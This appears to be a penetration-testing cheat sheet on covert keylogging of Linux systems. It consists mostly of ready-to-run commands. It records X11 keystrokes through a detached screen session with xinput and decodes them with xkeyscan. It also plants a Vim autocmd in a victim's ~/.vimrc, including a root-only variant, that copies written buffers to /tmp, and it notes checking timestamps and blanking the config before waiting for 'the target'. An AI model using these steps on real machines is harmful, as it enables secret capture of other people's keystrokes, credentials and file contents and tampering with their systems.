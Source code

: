 # Keylogging

## 01 - Script

Run a multiplexer terminal program to leave it in the background.

```
$ screen -S keylogger

$ export DISPLAY=:0.0

$ export | grep -i display
```

Exporting the keyboard mapping will show the keybindings that can be translated to actual keystrokes.

```
$ xmodmap -pke > xmodmap-pke.txt

$ head -n20 xmodmap-pke.txt
```

Find the virtual core keyboard to record keystrokes then detach the session to leave it in the background with (`CTRL+D`).

```
$ xinput list

$ script -c "xinput test <X_id>" -a xinput-keylogger.log
```

While it's still running in the background use `xkeyscan` ( a python script is included in the references below) to convert the decimal base 10 values to printable ASCII characters.

```
$ python xkeyscan.py xinput-keylogger.log
```

## 02 - Vim

### 2.1 - Common File Destinations

```
$HOME/.vimrc
$HOME/.vim/plugin/settings.vim
```

### 2.2 - Vim scripts for logging keystrokes

Normal user

```
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

Under elevated user context when the user is running as `sudo`.

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
:endif
```

### 2.3 - Insert keylogging configuration

Gather timestamps and backup the config resource file. Also try to improvise by instead of getting rid of the rest of the vim config content's. Modify it to ensure it contains no syntax errors. Then wait for the target when he interacts with VIM.

```
$ stat ~/.vimrc
$ cp ~/.vimrc /tmp/.vimrc.bak
$ echo "" > ~/.vimrc
$ cat ~/.vimrc
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

---
## References

- [[Screen]]

- [RedHat: Record your terminal with script and scriptreplay](https://www.redhat.com/sysadmin/record-terminal-script-scriptreplay )

- [xkeyscan](https://github.com/porterhau5/xkeyscan)

- [Natively Keylogging NIX Systems](http://legacy.popped.io/2016/06/natively-keylogging-nix-systems.html)

- [Using xkeyscan to Parse an X-Based Linux Keylogger](https://porterhau5.com/blog/xkeyscan-parse-linux-keylogger/)